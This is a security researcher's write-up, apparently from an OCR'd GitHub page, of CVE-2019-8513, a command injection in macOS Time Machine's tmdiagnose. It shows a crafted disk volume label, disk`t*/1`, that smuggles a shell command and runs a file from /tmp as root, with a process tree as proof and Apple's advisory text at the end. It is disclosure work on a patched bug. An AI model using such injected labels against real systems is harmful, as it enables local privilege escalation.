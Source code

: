 ```
/dev/disk2 (disk image):
   #:                       TYPE NAME                    SIZE       IDENTIFIER
   0:      GUID_partition_scheme                        +860.2 KB   disk2
   1:                 Apple_APFS hello
world           819.2 KB    disk2s1
```

Volume label also supports special chars like \n\`$, so we can inject the payload here. But whitespaces will be treated as splitter and break the payload. Besides, the label is limited to be shorter than 23 chars (including the NULL terminator), otherwise it'll be truncated:

```objc
if (0x16 < label.length) {
    truncated = [label substringToIndex: 0x13];
    label = [NSString stringWithFormat:@"%@", truncated];
}
```

So the label must:

* have the keyword disk
* have a line break
* use ` or $() to inject shell command
* be shorter than 22 chars
* have no more whitespace except the line break

Since we have bash support now, wildcard comes to the rescue. The working dir is `/`. Use `A*/1` or `t*/1` to execute `/Applications/1` or `/tmp/1`, making the payload as short as possible.

The final payload is disk`t*/1` to execute /tmp/1.

```
|-+= 89190 root /System/Library/PrivateFrameworks/DiagnosticExtensions.framework/PlugIns/osx-timemachine.appex/Contents/XPCServices/timemachinehelper
| \-+= 89191 root /usr/bin/tmdiagnose -W -r -f /tmp
|   \-+= 89488 root /bin/bash -c /usr/sbin/diskutil list I /usr/bin/awk '/disk/ {system("/usr/sbin/diskutil info "$NF): print "*********************"}'
|     \-+- 89490 root /usr/bin/awk /disk/ {system("/usr/sbin/diskutil info "SNF); print "*********************"}
|       \-+- 89506 root sh -c /usr/sbin/diskutil info disk't*/1'
|         \-+- 89507 root sh -c /usr/sbin/diskutil info disk't*/1
|           \-+- 89508 root tmp/1
|             \--= 89527 root /usr/bin/hdiutil eject /dev/disk2
```

> Time Machine
>
> Available for: macOS Sierra 10.12.6, macOS High Sierra 10.13.6, macOS Mojave 10.14.3
>
> Impact: A local user may be able to execute arbitrary shell commands
>
> Description: This issue was addressed with improved checks.
>
> CVE-2019-8513: CodeColorist of Ant-Financial LightYear Labs
